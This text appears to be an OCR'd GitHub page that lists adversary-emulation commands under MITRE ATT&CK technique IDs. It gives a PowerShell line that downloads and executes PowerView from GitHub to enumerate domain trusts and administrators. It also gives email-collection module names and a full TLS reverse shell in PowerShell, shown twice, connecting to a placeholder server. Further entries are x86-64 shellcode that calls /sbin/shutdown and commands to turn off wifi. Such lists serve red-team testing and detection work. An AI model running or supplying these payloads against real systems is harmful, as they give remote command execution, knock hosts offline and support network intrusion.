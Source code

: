 * [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainTrust -Verbose
* nltest /domain_trusts
* Import-Module "$env:TEMP\PowerView.ps1"
Get-NetDomainTrust
Get-NetForestTrust
Get-ADDomain
Get-ADGroupMember Administrators -Recursive
* Import-Module .\powerview.ps1 -Force;
Get-NetDomain | ConvertTo-Json -Depth 1
##T1189: Drive-by Compromise
##T1568: Dynamic Resolution
##T1114: Email Collection
* powercmd.exe /c/management/mailraider/disable_security
* powercmd.exe /c/management/mailraider/get_emailitems
* powercmd.exe /c/management/mailraider/get_subfolders
* powercmd.exe /c/management/mailraider/mail_search
* powercmd.exe /c/management/mailraider/search_gal
* powercmd.exe /c/management/mailraider/send_mail
* powercmd.exe /c/management/mailraider/view_email
* python/collection/osx/search_email
##T1573: Encrypted Channel
* $server_ip = #{server_ip}
$server_port = 443
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', '443')
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
* $server_ip = 127.0.0.1
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('127.0.0.1', '#{server_port}')
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
##T1499: Endpoint Denial of Service
* 0x48, 0x31, 0xc0, 0x48, 0x31, 0xd2, 0x50, 0x6a, 0x77, 0x66, 0x68, 0x6e, 0x6f, 0x48, 0x89, 0xe3, 0x50, 0x66, 0x68, 0x2d, 0x68, 0x48, 0x89, 0xe1, 0x50, 0x49, 0xb8, 0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x2f, 0x49, 0xba, 0x73, 0x68, 0x75, 0x74, 0x64, 0x6f, 0x77, 0x6e, 0x41, 0x52, 0x41, 0x50, 0x48, 0x89, 0xe7, 0x52, 0x53, 0x51, 0x57, 0x48, 0x89, 0xe6, 0x48, 0x83, 0xc0, 0x3b, 0x0f, 0x05
* .\wifi.ps1 -Off
* ./wifi.sh off